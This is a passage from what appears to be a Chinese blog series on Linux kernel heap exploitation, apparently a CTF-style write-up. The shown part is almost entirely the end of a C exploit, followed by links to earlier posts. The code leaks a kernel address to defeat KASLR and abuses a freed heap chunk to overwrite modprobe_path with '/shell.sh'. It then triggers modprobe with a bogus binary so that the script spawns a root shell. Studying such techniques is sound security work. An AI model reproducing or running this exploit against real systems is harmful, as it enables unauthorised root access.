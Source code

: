 ```
    alloc_buf(easy_fd,0xa8);
    alloc_buf(easy_fd,0xa8);

    read_buf(easy_fd, buf,0xa8);

size_t kernel_offset = buf[2]-0xFFFFFFFF81000110;
printf("[*] kernel offset: %p\n", kernel_offset);
    modprobe_path += kernel_offset;

    buf[0]= modprobe_path -0x20;
    alloc_buf(easy_fd,0xa8);
    free_buf(easy_fd);

    write_buf(easy_fd, buf,0x8);
    alloc_buf(easy_fd,0xa8);
    alloc_buf(easy_fd,0xa8);

    read_buf(easy_fd, buf,0x20);
strcpy((char*)&buf[4],"/shell.sh\x00");
    write_buf(easy_fd, buf,0x30);

if(open("/shell.sh", O_RDWR)<0){
        system("echo '#!/bin/sh' >> /shell.sh");
        system("echo 'setsid /bin/cttyhack setuidgid 0 /bin/sh' >> /shell.sh");
        system("chmod +x /shell.sh");
}

    system("echo -e '\\xff\\xff\\xff\\xff' > /fake");
    system("chmod +x /fake");
    system("/fake");

return0;
}
```  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&chksm=c160f8e6f61771f0fec6a865b8f6f645128bd3f48035546980afeebcc974b4f76538c7561d55&scene=21#wechat_redirect)  
  
  
前篇回顾  
  
[kernel](http://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247551010&idx=1&sn=619a3e6770abc85e382e9ec6ef8bb653&chksm=c160f26bf6177b7d98f297b0b77ec19d3ca2aba3eade2d7c0b6dcf8677b7682193b020b4ae87&scene=21#wechat_redirect)  
  
  
[kernel heap exploit（二）](http://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247551410&idx=1&sn=d417c660d378ffa78d62438345a48fbd&chksm=c160f3fbf6177aed389c64e49f14fb48aeebd995a01e3509e0d90e886671ce4b762b174b4d39&scene=21#wechat_redirect)  
  
  

